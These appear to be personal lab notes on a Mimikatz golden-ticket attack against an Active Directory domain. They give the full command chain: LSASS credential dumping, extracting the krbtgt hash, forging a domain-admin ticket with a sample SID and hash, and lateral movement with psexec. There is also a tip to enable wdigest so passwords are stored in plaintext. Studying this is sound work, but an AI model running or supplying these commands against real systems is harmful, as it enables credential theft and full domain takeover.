# Mimikatz

<?xml version="1.0" encoding="UTF-8"?>
<node><rich_text justification="left"></rich_text><rich_text>

read more about mimikatz : </rich_text><rich_text link="webs https://github.com/gentilkiwi/mimikatz/wiki">https://github.com/gentilkiwi/mimikatz/wiki</rich_text><rich_text>

commands used in this attack:

privilege::debug

sekurlsa::logonpasswords

lsadump::lsa /patch

lsadump::lsa /inject /name:krbtgt   

sid of domain , ntlm hash of krbtgt account

Kerberos::golden /User:hacker123 /domain:Boss.local /sid: &lt;sIdOfDomain&gt; /krbtgt:&lt;ntlm hash&gt; /id:500 /ptt

misc::cmd

dir \\THEPUNISHER\C$

psexec.exe \\THEPUNISHER cmd.exe
---------------------------------------------------------------------

privilege::debug   </rich_text><rich_text foreground="#2ec27e">Enables the SeDebugPrivilege privilege for Mimikatz. Attempts to grant the current process the ability to interact with protected system processes such as 	
						   accessing LSASS memory.</rich_text><rich_text>

sekurlsa::logonpasswords  </rich_text><rich_text foreground="#2ec27e">Extracts credentials from LSASS memory. LSASS (Local Security Authority Subsystem Service) stores authentication information for logged-on users.</rich_text><rich_text>

</rich_text><rich_text justification="left"></rich_text><rich_text>

</rich_text><rich_text foreground="#2ec27e">NOTE : we can enable wdigest so the next logon will save the password as a plain text</rich_text><rich_text>
</rich_text><rich_text justification="left"></rich_text><rich_text>

lsadump::lsa /patch   </rich_text><rich_text foreground="#2ec27e">Access secrets (such as accounts hashes,krbtgt's password hash) stored by the Local Security Authority (LSA).</rich_text><rich_text>
</rich_text><rich_text justification="left"></rich_text><rich_text>
</rich_text><rich_text justification="left"></rich_text><rich_text>

</rich_text><rich_text foreground="#2ec27e">getting krbtgt secrets information in detaile</rich_text><rich_text>

</rich_text><rich_text foreground="#f6d32d">golden ticket attack : </rich_text><rich_text foreground="#33d17a"> </rich_text><rich_text>
is a forged Kerberos Ticket Granting Ticket (TGT) created using the secret key (hash) of the Active Directory krbtgt account. Because every Domain  
Controller trusts tickets signed with the krbtgt key, a forged TGT can be accepted as legitimate Kerberos authentication material.
which result in creating a tickt granting ticket with a high privileges(or what ever u want)

why its called golden becuase: 

- Impersonate chosen users.
- Claim arbitrary group memberships.
- Request service tickets throughout the domain.
- Continue working even if the impersonated user's password changes, since the trust comes from the krbtgt key rather than that user's password

how it works :

creating tgt in normal : creating the tickt granting ticket and ecnrypting it using krbtgt secret hash. tgt =  enc(tgt,krbtgt's hash) 

so if we have the krbtgt secret hash we can create a forged tgt that has high privileges

</rich_text><rich_text foreground="#33d17a">This command is used to create a forged Kerberos Ticket Granting Ticket (TGT).</rich_text><rich_text>
kerberos::golden /User:hacker123 /domain:Boss.local /sid:S-1-5-21-1636423317-4072107170-1084666707 /krbtgt:97ac71ca56f1996427f876bf1365c8df /id:500 /ptt

/id:500 this means admin privileges
/ptt : Inject the generated tgt into the current session.

</rich_text><rich_text justification="left"></rich_text><rich_text>

</rich_text><rich_text justification="left"></rich_text><rich_text>

</rich_text><rich_text justification="left"></rich_text><rich_text>

</rich_text><rich_text justification="left"></rich_text><rich_text>
</rich_text><rich_text justification="left"></rich_text><rich_text>

</rich_text></node>























